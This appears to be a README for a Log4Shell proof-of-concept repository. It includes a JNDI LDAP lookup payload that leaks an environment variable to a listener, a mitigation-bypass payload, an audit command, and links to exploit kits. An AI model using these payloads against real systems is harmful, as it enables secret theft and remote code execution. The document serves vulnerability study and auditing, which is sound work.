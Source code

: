 Log4j vulnerability exploration/proof of concept
================================================
Also known as CVE-2021-45046 CVE-20201-44228 #log4shell

https://logging.apache.org/log4j/2.x/security.html

How to use
===============================================
First verify that it works by running `test.sh` it should print ITWORKS in uppercase for different log levels


Exfiltration example
---------------------
```
cd listener
./ldap-exfil.py
```
in another terminal run the following and observe the secret key value being leaked to the ldap server
```
export SECRET_KEY="this_is_a_secret_key"
./vuln.sh error '${jndi:ldap://localhost:8888/${env:SECRET_KEY}}'
```


Mitigation bypass
------------------
You can compare the behaviour of the printf call to the others via:
```
./mitigator-vuln.sh error '${upper:bypass}'
./mitigator-vuln.sh info '${upper:bypass}'
./mitigator-vuln.sh printf '${upper:bypass}'
```

Audit source for log4j usage
----------------------------
```
graudit -d ./log4shell.db <file_or_dir>
```
And don't forget to look for the class files (recursively through jar/war/zip files)

Links
------------------
Thanks to all those who shared stuff before me, some of the links below.
https://github.com/pimps/JNDI-Exploit-Kit
https://github.com/leonjza/log4jpwn
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/kmindi/log4shell-vulnerable-app/`
https://github.com/alexandre-lavoie/python-log4rce/
